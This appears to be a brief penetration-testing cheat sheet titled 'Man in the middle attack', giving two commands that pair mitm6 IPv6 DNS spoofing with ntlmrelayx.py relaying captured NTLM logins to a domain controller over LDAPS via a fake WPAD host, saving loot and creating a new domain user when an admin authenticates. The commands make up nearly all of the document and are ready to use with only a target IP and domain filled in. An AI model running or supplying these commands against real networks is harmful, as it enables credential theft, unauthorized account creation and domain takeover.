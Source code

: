 # Man in the middle attack

*grab events on machines and pass them through ntlmrelayx to domain controller. Store loot in `lootme` folder* **If admin logs in then ntlmrelay will create new user and display that in logs**

```
ntlmrelayx.py -6 -t ldaps://[DOMAIN-CONTROLLER-IP] -wh fakewpad.[DOMAIN-NAME] -l lootme
```

```
sudo mitm6 -i eth0 -d [DOMAIN-NAME]
```
